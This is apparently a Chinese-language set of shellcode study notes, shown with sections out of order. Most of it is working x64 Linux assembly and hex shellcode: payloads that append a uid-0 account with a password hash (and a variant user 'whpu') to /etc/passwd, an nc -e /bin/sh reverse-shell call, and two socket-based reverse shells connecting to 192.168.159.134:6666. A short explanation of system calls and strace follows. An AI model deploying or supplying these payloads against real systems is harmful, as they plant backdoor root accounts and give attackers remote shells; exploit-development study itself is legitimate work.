\x5f\x48\x31\xc0\x48\x31\xf6\x66\xbe\x01\x04\x04\x02\x0f\x05\x48\x97\xeb\x0e\x5e\x6a\x01\x58\x6a\x26\x5a\x0f\x05\x6a\x3c\x58\x0f\x05\xe8\xed\xff\xff\xff\x74\x6f\x6f\x72\x3a\x73\x58\x75\x43\x4b\x69\x37\x6b\x33\x58\x68\x2f\x73\x3a\x30\x3a\x30\x3a\x3a\x2f\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

#### 2.  137bytes 添加     t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash

```
section .text
global _start
_start:

    ;sys_setreuid(uint ruid, uint euid)
    ;xor     rax, rax
    ;mov     al,113   ;syscall 	sys_setreuid
    ;xor     rbx,rbx     ;arg 1 -- set real uid to root
    ;mov     rcx,rbx     ;arg 2 -- set effective uid to root
    ; syscall       ;setreuid（） 设置调用过程的真实和有效用户 ID。
    
	;sys_setregid(uint rgid, uint egid)
    ; xor     rax,rax
    ; mov     al,114    ;syscall sys_setregid
    ; xor     rbx,rbx  ;arg 1 -- set real uid to root
    ; mov     rcx,rbx     ;arg 2 -- set effective uid to root
    ; syscall
    
   
    xor rbx,    rbx
    mov     ebx,    0x647773FF
    shr     rbx,    8
    push    rbx                             ;string \00dws
    mov     rbx,    0x7361702f6374652f
    push    rbx                             ;string sap/cte/
    mov     rbx,    0x0A687361622F6EFF
    shr     rbx,    8
    push    rbx                             ;string \00\nhsab/n
    mov     rbx,    0x69622F3A746F6F72
    push    rbx                             ;string ib/:toor
    mov     rbx,    0x2F3A3A303A303A67
    push    rbx                             ;string /::0:0:g
    mov rbx,    0x46556B554B587435
    push    rbx             ;string FUkUKXt5
    mov rbx,    0x546755333A723074
    push    rbx             ;string TgU3:r0t
    mov rbx,    rsp         
    push    rbp            
    mov rbp,    rsp         
    sub rsp,        16
    mov [rbp - 16], rbx     
    mov si,     0x0401      
    mov rdi,        rbx
    add rdi,        40     
    xor rax,        rax
    mov al,     2   
    syscall             ;open()
    
    ;sys_write(uint fd, char* buf, uint size)
    mov [rbp - 4],  eax    
    mov rcx,rbx     
    xor rdx, rdx
    mov dl,39      
    mov rsi,rcx    
    mov rdi,rax     
    xor  rax,rax
    mov  al,  1    
    syscall		;write
    
    ;sys_close(uint fd)
    xor rdi,        rdi
    mov edi,        [rbp - 4] 
    xor rax,        rax
    mov al,     3   
    syscall				;关闭close
    
  
    xor rax,rax
    mov al, 60      
    xor rbx,rbx       
    syscall    ;退出
```

```
\x48\x31\xdb\xbb\xff\x73\x77\x64\x48\xc1\xeb\x08\x53\x48\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\xbb\xff\x6e\x2f\x62\x61\x73\x68\x0a\x48\xc1\xeb\x08\x53\x48\xbb\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x53\x48\xbb\x67\x3a\x30\x3a\x30\x3a\x3a\x2f\x53\x48\xbb\x35\x74\x58\x4b\x55\x6b\x55\x46\x53\x48\xbb\x74\x30\x72\x3a\x33\x55\x67\x54\x53\x48\x89\xe3\x55\x48\x89\xe5\x48\x83\xec\x10\x48\x89\x5d\xf0\x66\xbe\x01\x04\x48\x89\xdf\x48\x83\xc7\x28\x48\x31\xc0\xb0\x02\x0f\x05\x89\x45\xfc\x48\x89\xd9\x48\x31\xd2\xb2\x27\x48\x89\xce\x48\x89\xc7\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xff\x8b\x7d\xfc\x48\x31\xc0\xb0\x03\x0f\x05\x48\x31\xc0\xb0\x3c\x48\x31\xdb\x0f\x05
```

### 3.改 添加普通用户  132bytes   添加    whpu::66:6::/home/WHPU:/bin/bash (加sudo)

whpu::66			36363a3a75706877

:6::/hom			6d6f682f3a3a363a

e/whpu:/					2f3a757068772f65

bin/bash				687361622f6e6962

```
; username: WHPU
; password: 
; uid: 66     			//适当更改
; gid: 6				//适当更改
; home: /home/WHPU    //适当更改
; shell: /bin/bash
```

```
section .text
global _start
_start:

    xor rbx,    rbx
    mov     ebx,    0x647773FF
    shr     rbx,    8
    push    rbx                             ;string \00dws
    mov     rbx,    0x7361702f6374652f
    push    rbx                             ;string sap/cte/
    
    xor rax,rax
    push rax
    
    mov     rbx,    0x687361622f6e6962
    push    rbx                            
    mov     rbx,    0x2f3a757068772f65
    push    rbx                            
    mov     rbx,    0x6d6f682f3a3a363a
    push    rbx                            
    mov rbx,    0x36363a3a75706877
    push    rbx            
    mov rbx,    rsp  
    
    push    rbp            
    mov rbp,    rsp         
    sub rsp,        16
    mov [rbp - 16], rbx     
    mov si,     0x0401      
    mov rdi,        rbx
    add rdi,        40     
    xor rax,        rax
    mov al,     2   
    syscall             ;open()
    
    ;sys_write(uint fd, char* buf, uint size)
    mov [rbp - 4],  eax    
    mov rcx,rbx     
    xor rdx, rdx
    mov dl,39      
    mov rsi,rcx    
    mov rdi,rax     
    xor  rax,rax
    mov  al,  1    
    syscall		;write
    
    ;sys_close(uint fd)
    xor rdi,        rdi
    mov edi,        [rbp - 4] 
    xor rax,        rax
    mov al,     3   
    syscall				;关闭close
    
  
    xor rax,rax
    mov al, 60      
    xor rbx,rbx       
    syscall    ;退出
```

```
\x48\x31\xdb\xbb\xff\x73\x77\x64\x48\xc1\xeb\x08\x53\x48\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x31\xc0\x50\x48\xbb\x62\x69\x6e\x2f\x62\x61\x73\x68\x53\x48\xbb\x65\x2f\x77\x68\x70\x75\x3a\x2f\x53\x48\xbb\x3a\x36\x3a\x3a\x2f\x68\x6f\x6d\x53\x48\xbb\x77\x68\x70\x75\x3a\x3a\x36\x36\x53\x48\x89\xe3\x55\x48\x89\xe5\x48\x83\xec\x10\x48\x89\x5d\xf0\x66\xbe\x01\x04\x48\x89\xdf\x48\x83\xc7\x28\x48\x31\xc0\xb0\x02\x0f\x05\x89\x45\xfc\x48\x89\xd9\x48\x31\xd2\xb2\x27\x48\x89\xce\x48\x89\xc7\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xff\x8b\x7d\xfc\x48\x31\xc0\xb0\x03\x0f\x05\x48\x31\xc0\xb0\x3c\x48\x31\xdb\x0f\x05
```


## 6.反向shell

### 1.使用netcat -e实现

```
execve("/bin/nc",["/bin/nc","ip","port","-e","/bin/sh"],NULL)
```

### 2.使用 socket

#### 1.黄127bytes

|         | rax        | rdi              | rsi         | rdx  |
| ------- | ---------- | ---------------- | ----------- | ---- |
| socket  | 41（0x29） | SOCK_STREAM（2） | AF_NET（1） | NULL |
| connect | 42（0x2a） | socket返回值     | 地址        | 长度 |
| dup2    | 33（0x21） | socket返回值     |             | 无   |
| execve  | 59（0x3b） | '/bin/sh'        | [/bin/sh]   | NULL |

```
int socket(int domain, int type, int protocol);
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);

```


```
global _start
section .text
_start:
    ;Socket
    xor rdx, rdx                ; zero out rdx
    mov rsi, rdx                ; AF_NET = 1
    inc rsi                     ; rsi = AF_NET
    mov rdi, rsi                ; SOCK_STREAM = 2
    inc rdi                     ; rdi = SOCK_STREAM
    add ax, 0x29
    syscall                   ; call socket(SOCK_STREAM, AF_NET, 0);
	
    mov r12, rax
    sub rsp,0x10
    mov dword [rsp+0x4],0x869fa8c0		; ip = 192.168.159.134
    mov word [rsp+0x2],0x0a1a			; post = 6666
    mov word [rsp],0x2
    ; Connect = 0x2a
    mov rdi, rax                ; move the saved socket fd into rdi
    mov rsi, rsp                ; move the saved sock_addr_in into rsi
    add dx, 0x10                ; add 0x10 to rdx
    xor rax, rax    
    add ax, 0x2a
    syscall                     ; call connect(rdi, rsi, rdx)

    xor rsi, rsi                ; zero out rsi

    dup:
    xor rax, rax
    add ax, 0x21                ; move the syscall for dup2 into rax
    mov rdi, r12                ; move the FD for the socket into rdi
    syscall                     ; call dup2(rdi, rsi)

    cmp rsi, 0x2                ; check to see if we are still under 2
    inc rsi                     ; inc rsi
    jbe dup                     ; jmp if less than 2

    ;sub r8, 0x1F                ; setup the exec syscall at 0x3b
    xor rax, rax    
    add ax, 0x3b                 ; move the syscall into rax

    ;exec
    xor rdx, rdx				 ; zero out rdx
    mov qword rbx, '//bin/sh' 	 ; '/bin/sh' in hex
    shr rbx,0x8                  ; shift right to create the null terminator
    push rbx

    mov rdi, rsp
    
    push rdx
    push rdi             		; move the command from the stack to rdi
    mov rsi, rsp                ; zero out rsi
    syscall                     ; call exec(rdi, rsi, 0)
```

```
\x48\x31\xd2\x48\x89\xd6\x48\xff\xc6\x48\x89\xf7\x48\xff\xc7\x66\x83\xc0\x29\x0f\x05\x49\x89\xc4\x48\x83\xec\x10\xc7\x44\x24\x04\xc0\xa8\x9f\x86\x66\xc7\x44\x24\x02\x1a\x0a\x66\xc7\x04\x24\x02\x00\x48\x89\xc7\x48\x89\xe6\x66\x83\xc2\x10\x48\x31\xc0\x66\x83\xc0\x2a\x0f\x05\x48\x31\xf6\x48\x31\xc0\x66\x83\xc0\x21\x4c\x89\xe7\x0f\x05\x48\x83\xfe\x02\x48\xff\xc6\x76\xeb\x48\x31\xc0\x66\x83\xc0\x3b\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05
```

#### 2.改118bytes

```
global _start
section .text
_start:

	xor    rax,rax
	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    r8,r8
	push   0x2
	pop    rdi
	push   0x1
 	pop    rsi
	push   0x6
	pop    rdx
 	push   0x29
	pop    rax
 	syscall  			 ; call socket(SOCK_STREAM, AF_NET, 0);
 
 	mov    r8,rax
 	xor    rsi,rsi
 	xor    r10,r10
	push   r10
 	mov    BYTE  [rsp],0x2
	mov    WORD  [rsp+0x2],0x0a1a			; post = 6666
	mov    DWORD  [rsp+0x4],0x869fa8c0		; ip = 192.168.159.134
	mov    rsi,rsp
 	push   0x10
 	pop    rdx
 	push   r8
	pop    rdi
 	push   0x2a
 	pop    rax
  	syscall 			; call connect(rdi, rsi, rdx)
  
xor    rsi,rsi
 push   0x3
  pop    rsi
doop:
 	dec    rsi
	push   0x21
 	pop    rax
	syscall

jne   doop
 
	xor    rdi,rdi
 	push   rdi
	push   rdi
	pop    rsi
 	pop    rdx
	mov rdi,0x68732f6e69622f2f
	shr    rdi,0x8
	push   rdi
	push   rsp
	pop    rdi
	push   0x3b
    pop    rax
    syscall 
```

```
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x1a\x0a\xc7\x44\x24\x04\xc0\xa8\x9f\x86\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05
```


1.Shellcode简介

​	 	shellcode 通常用机器语言编写，是一段用于软件漏洞而执行的代码，因其目的常常是让攻击者获得目标机器的命令行 shell 而得名。随着发展，shellcode 现在代表将插入到漏洞利用程序中以完成所需任务的任何字节码。由于shellcode要直接操作寄存器和函数，所以必须是十六进制的形式。

​		shellcode的目的是要让目标程序以不同于设计者预期的方式运行，执行一些程序本身不具备的功能，实现攻击者的攻击目的。而在汇编语言中有一些函数调用基本可以实现所有功能，**即系统调用函数**，通过系统调用可以直接访问系统内核，具有非常强大的功能

/* 系统调用 */

2.1理解系统调用

 		操作系统作为用户与计算机硬件之间的接口，向上提供简单易用的服务。包括命令接口和程序接口。其中程序接口由一组系统调用组成。


​		**“系统调用”**是操作系统提供给应用程序（程序员、编程人员）使用的接口，可以理解为一种可供应用程序调用的特殊函数，应用程序可以发出系统调用请求来获得操作系统的服务。

linux 中 追踪系统调用

​		下例展示了使用标准库的程序例子，通过追踪其执行过程，你就会发现在标准库函数之下，实际上隐藏了很多的系统调用：

```
#include<stdio.h>
#include<fcntl.h>
#include<unistd.h>
#include<malloc.h>
int main() {
    int handle，bytes;
    void* ptr;
    handle = open("/tmp/test.txt"，O_RDONLY);
    ptr = (void*)malloc(150);
    bytes = read(handle，ptr，150);
    printf("%s"，ptr);
    close(handle);
    return 0;
}
```

​			上例程序打开文件`/tmp/test/txt`，读取了前 150 个字节然后打印到标准输出，这是 UNIX head 命令的一个简单版本。我们可以通过 strace 工具来追踪该程序的运行过程 `strace -o log.txt ./shead`。


